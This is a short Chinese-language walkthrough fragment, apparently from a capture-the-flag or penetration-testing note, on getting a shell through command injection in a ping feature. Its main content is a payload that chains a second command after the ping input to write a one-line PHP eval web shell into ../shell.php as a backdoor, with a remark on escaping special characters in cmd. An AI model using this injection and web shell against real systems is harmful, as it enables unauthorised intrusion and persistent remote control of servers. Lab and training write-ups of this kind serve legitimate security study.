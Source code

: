 
获取shell，利用ping里的命令执行。

​![image](assets/image-20240926194019-jrums4i.png)​

```payload
xx || echo ^<?php @eval($_POST[cmd]); ?^> > ../shell.php
?、<、>等字符在cmd中有特殊含义，会被转义
```

使用上方命令写个后门。

​![image](assets/image-20240926200103-el10r75.png)​

